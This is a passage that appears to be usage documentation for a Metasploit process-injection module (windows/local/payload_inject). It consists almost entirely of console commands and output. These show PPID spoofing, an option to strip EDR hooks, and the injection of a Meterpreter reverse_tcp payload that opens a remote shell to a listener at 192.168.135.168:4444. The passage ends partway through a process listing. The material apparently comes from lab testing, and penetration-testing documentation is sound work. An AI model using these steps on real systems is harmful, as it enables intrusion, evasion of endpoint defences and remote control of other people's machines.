 ```
meterpreter > getpid
Current pid: 684
meterpreter >

```

### Windows 10x64 Build 17134 No PID
```
msf5 exploit(windows/local/payload_inject) > set PPID 3632
PPID => 3632
msf5 exploit(windows/local/payload_inject) > show options

Module options (exploit/windows/local/payload_inject):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   AUTOUNHOOK   false            no        Auto remove EDRs hooks
   PID          0                no        Process Identifier to inject of process to inject payload. 0=New Process
   PPID         3632             no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
   SESSION      1                yes       The session to run this module on.
   WAIT_UNHOOK  5                yes       Seconds to wait for unhook to be executed


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf5 exploit(windows/local/payload_inject) > run

[*] Started reverse TCP handler on 192.168.135.168:4444
[*] Running module against DESKTOP-D1E425Q
[*] Spawned process 1528
[*] Spoofing PPID 3632
[*] Injecting payload into 1528
[*] Preparing 'windows/x64/meterpreter/reverse_tcp' for PID 1528
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 3 opened (192.168.135.168:4444 -> 192.168.132.125:49677) at 2020-01-22 13:16:31 -0600

meterpreter > getpid
Current pid: 1528
meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                     Path
 ---   ----  ----                         ----  -------  ----                     ----
 0     0     [System Process]
```